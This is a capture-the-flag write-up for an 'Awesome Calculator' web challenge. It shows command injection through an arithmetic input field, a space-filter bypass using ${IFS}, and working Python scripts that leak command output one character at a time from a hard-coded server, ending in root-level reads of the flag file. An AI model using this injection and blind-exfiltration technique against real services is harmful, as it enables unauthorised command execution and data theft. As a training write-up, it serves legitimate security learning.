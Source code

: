 # Awesome Calculator

## Challenge description
> Checkout my new awesome calculator! It works great!

## Solution
We are giving the following website:

![](images/website.png)


### Exploration - what can we do?
Playing a bit around with it, it seems it contains some sort of command injection. I tried various inputs, eventually discovering:
* "Firewall" is hit when writing a space
* "Firewall" is hit when writing `flag.txt`. So flag is probably stored here
* System crashes on bad syntax. E.g. `$(')`
* Its a command injection, as `2+$((4))` gives the output `6`

However even though we have a command injection, we do not see any output. `4&&$(ls)` gave an interesting output, which I unfortunately could not exploit:

![](images/ls.png)

It seems like we are only limited to integers. We will return to this later.

### Defeating the whitespace
Most bash/command implementations supports the space variable `${IFS}`. Meaning that a command like `ls -l` can be encoded as `ls${IFS}-l`. Running `$((2${IFS}+4))` on the server yields `6`. Thus, we got rid of the whitespace problem. However it gets a bit tedious to write, time to automate!

### Automating input
We simply create a python script to send the input to the webserver, while replacing any whitespaces with `${IFS}`:

```python
import requests
import re
import string
import sys

# Run the command against the server and return the output
def run(cmd):
    url = "http://165.22.90.215:8093/calc"
    cmd = cmd.replace(" ", "${IFS}") # Replace spaces
    response = requests.get(url, params={'exp': cmd})

    if not response:
        return None
    
    if "firewall" in response.text:
        print("Error: Triggered firewall")
        return None

    # Remove all HTML around the output which is within <b>OUTPUT</b>
    return re.sub(r".*<b>([^<]+)\s*</b>.*", "\\1", response.text, flags=re.DOTALL).strip()

print(run("$((2+4))"))   # Yields 6
print(run("$((2+4+6))")) # Yields 12
```

### Exploiting
Now that we can run simple commands and return integers, its time to exploit it. There is probably a simpler way, but treating it like a SQL-injection and leaking a character at a time, is indeed feasible.

We use the following method, to take a character at a time, convert it to ascii and return it. It can be tested in your own terminal:
```
echo abcd|head -c 1|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
```

Lets brake it down into parts. Essentially we use head and tail to just take the first or last character from the output:
```
$ echo abcd
abcd

$ echo abcd|head -c 1
a

$ echo abcd|head -c 1|tail -c 1
a

$ echo abcd|head -c 1|tail -c 1|od -N 1 -i
0000000          97
0000001

$ echo abcd|head -c 1|tail -c 1|od -N 1 -i|head -n 1
0000000          97

$ echo abcd|head -c 1|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
000000097

$ echo abcd|head -c 2|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
000000098
$ echo abcd|head -c 3|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g'
000000099
```
The ascii code of `a` is indeed 97, while `b` has 98 and `c` has 99. Now its time to create a script, that can automate this.

Instead of `echo abcd` we just write the command we want. To ensure our payload is treated nicely, we wrap it as previously with `0+$(%payload%)`.

The final script, which gives us command injection with output on the server is:

```python
import requests
import re
import string
import sys

# Run the command against the server and return the output
def run(cmd):
    url = "http://165.22.90.215:8093/calc"
    cmd = cmd.replace(" ", "${IFS}") # Replace spaces
    response = requests.get(url, params={'exp': cmd})

    if not response:
        return None
    
    if "firewall" in response.text:
        print("Error: Triggered firewall")
        return None

    # Remove all HTML around the output which is within <b>OUTPUT</b>
    return re.sub(r".*<b>([^<]+)\s*</b>.*", "\\1", response.text, flags=re.DOTALL).strip()

# Run the command multiple times against the server
# For each time, return one byte at the time
def leak(cmd):
    n = run("0+$(" + cmd + "|wc -c)")

    if n == None:
        print("Error: Failed!")
        return None
    
    n = int(n)
    print("Number of characters: ", n - 1)

    # Fetch one char at a time
    for i in range(1,n):
        res = run("0+$(" + cmd + "|head -c " + str(i) + "|tail -c 1|od -N 1 -i|head -n 1|sed 's/\s\+//g')")

        char = "#"
        if int(res) > 0:
            char = chr(int(res))
        
        # Do NOT output newlines
        print(char, end='',flush=True)
    
    print("")
        
if len(sys.argv) > 1:
    leak(sys.argv[1])
else:
    leak("find / -name fla*.txt -type f")
    leak("find / -name fla*.txt -type f -exec cat {} +")
```

We run it:
```
$ python3 leak.py "id"
Number of characters:  129
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
Sweat! I've always wanted to be root. Lets find the flag:
```
$ python3 leak.py
Number of characters:  17
/srv/app/flag.txt
Number of characters:  36
CTF{Executing_Commands_Are_Awesome!}
```

---
*Writeup by Morten Eskildsen*